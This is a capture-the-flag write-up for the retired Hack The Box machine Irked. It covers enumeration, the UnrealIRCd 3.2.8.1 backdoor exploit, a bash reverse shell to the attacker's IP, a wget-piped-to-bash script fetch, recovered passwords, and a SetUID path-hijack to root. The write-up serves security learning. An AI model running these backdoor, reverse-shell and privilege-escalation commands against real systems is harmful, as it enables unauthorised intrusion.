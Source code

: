 # Irked

This is the write-up for the box Irked that got retired at the 27th April 2019.
My IP address was 10.10.14.14 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.117    irked.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/irked.nmap 10.10.10.117
```

```markdown
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          51139/udp   status
|   100024  1          51821/tcp6  status
|   100024  1          53889/udp6  status
|_  100024  1          54177/tcp   status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Full TCP port scan:
```markdown
nmap -p- 10.10.10.117
```
```markdown
Not shown: 65528 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
54177/tcp open  unknown
65534/tcp open  unknown
```

Running default Nmap scripts on the found ports:
```markdown
nmap -sC -sV -p 6697,8067,54177,65534 10.10.10.117
```
```markdown
PORT      STATE SERVICE VERSION
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
54177/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
```

## Checking HTTP (Port 80)

On the web page is a frustrated emoji image called _irked.jpg_ and the text _"IRC is almost working!"_.
Lets search for hidden directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.117 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the directory _/manual_ which is the default Apache documentation and nothing else.

## Checking IRC (Port 6697 & 8067)

There is an **Internet Relay Chat (IRC)** service running on the box, so lets connect on the IRC service to get more information:
```markdown
ncat 10.10.10.117 8067

:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
PASS testpass
NICK testuser
USER testuser testclient irked :testuser
```
```markdown
:irked.htb 001 testuser :Welcome to the ROXnet IRC Network testuser!testuser@10.10.14.14
:irked.htb 002 testuser :Your host is irked.htb, running version Unreal3.2.8.1
:irked.htb 003 testuser :This server was created Mon May 14 2018 at 13:12:50 EDT
(...)
```

It shows that it is running **Unreal IRC 3.2.8.1** and was created on May 14 2018.
Checking if this version has known vulnerabilities:
```markdown
searchsploit unrealirc
```
```markdown
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute
```

The [UnrealIRC Backdoor Command Execution](https://lwn.net/Articles/392201/) seems to be the way to exploit this box.
Arbitrary code can be executed by sending _"AB"_ and a command to the server.
This can be tested by listening on incoming ICMP packets and sending a `ping` to ourselves:
```markdown
echo "AB; ping -c 1 10.10.14.14" | ncat 10.10.10.117 8067
```

It pings us once, which means that code execution is possible, so lets get a reverse shell:
```markdown
echo "AB; bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'" | ncat 10.10.10.117 8067
```

The listener on my IP and port 9001 starts a reverse shell session as the user _ircd_.

## Privilege Escalation

There is another user called _djmardov_ with a home directory and there is a hidden file _/home/djmardov/Documents/.backup_ which says the following:
```markdown
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

The word _steg_ is short for **Steganography** and the password seems to be the password for a file that has hidden data in it.
There was one image file at the beginning on the web page called _irked.jpg_ which could be the file.

Trying to extract hidden data out of _irked.jpg_ with **Steghide**:
```markdown
steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
```

It extracts _pass.txt_ with a string that looks like a password:
> Kab6h+m+bbp2J:HG

Trying to log in with _djmardov_ via SSH:
```markdown
ssh djmardov@10.10.10.117
```

The credentials work and privileges got escalated to _djmardov_.

### Privilege Escalation to root

To get an attack surface to get to root, any **Linux Enumeration script** should be run:
```markdown
wget 10.10.14.14/LinEnum.sh | bash
```

After analyzing the output, there is a binary with the **SetUID bit** set called _viewuser_, which is not a default binary.
When executing, it shows the following output:
```markdown
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-10-31 13:05 (:0)
djmardov pts/1        2020-10-31 14:18 (10.10.14.14)
sh: 1: /tmp/listusers: not found
```

It looks like that it is trying to execute _/tmp/listusers_ but this file does not exist.
Lets create it, give it execute permissions and try to run own code:
```markdown
#!/bin/bash

/bin/bash
```
```markdown
viewuser
```

After running _viewuser_, it also executes _/tmp/listusers_ and starts a shell as root!
